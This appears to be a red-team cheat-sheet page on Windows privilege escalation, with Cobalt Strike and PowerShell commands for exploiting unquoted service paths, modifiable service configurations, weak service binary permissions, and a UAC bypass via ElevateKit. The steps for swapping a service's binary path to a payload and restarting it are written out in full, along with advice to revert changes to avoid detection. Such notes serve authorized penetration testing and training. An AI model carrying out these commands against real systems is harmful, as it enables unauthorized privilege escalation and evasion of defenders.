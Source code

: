 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Windows_Privesc
---
```



<span style="font-size: 35px; color:red"><b>Windows Privilege Escalation</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Windows Services</b></span>
Enumerate services:
```shell
sc query
```
OR
```powershell
Get-Service | fl
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Unquoted Service Paths</b></span>
Check with CobaltStrike:
```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```
List services and their paths (looking for <span style="color: red">Unquoted Service Paths</span>:
```shell
wmic service get name, pathname
```
i.e. For an unquoted service path like C:\Program Files\Vulnerable Services\Service.exe, the OS will look for:
- C:\Program.exe
- C:\Program Files\Vulnerable.exe
- C:\Program Files\Vulnerable Services\Service.exe
&nbsp;
Check permissions on Folders and Files:
```powershell
Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```
and check for <span style="color: red">BUILTIN\Users Allow  CreateFiles</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Modifiable Services</b></span>
Check with CobaltStrike:
```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```
After that, use [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) powershell script to enumerate the service further:
```powershell
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name <VulnService> | select -expand Access
```
Check ServiceRights and IdentityReference to see who can do what.
If you have the rights, for instance, you can change the default binary path to an arbitrary file.
Check the current Binary Path:
```powershell
run sc qc <VulnService>
```
Then upload the binary (remember it must be a <span style="color:red">.svc.exe</span>) and reconfigure the path:
```powershell
run sc config <VulnService> binPath= <C:\Temp\tcp-local_x64.svc.exe>
```
Recheck the path and restart the service:
```powershel
run sc qc <VulnService>
run sc stop VulnService
run sc start VulnService
```
Re-change the binary path at the end to avoid detection.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Weak Service Binary Permissions</b></span>
When the vulnerability is on the service binary itself:
```powershel
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service.exe" | fl
```
If you get something like <span style="color:red">Access: BUILTIN\Users Allow Modify</span>, then the service is vulnerable and you can overwrite it with your payload.
<span style="color:red">You might need to stop the service first before replacing the .exe</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>UAC Bypass</b></span>
 Elevation of Medium Integrity processto High integrity.
 CobaltStrike has the [ElevateKit](https://github.com/cobalt-strike/ElevateKit) that allows you to do so.
```powershell
elevate uac-schtasks tcp-local
```
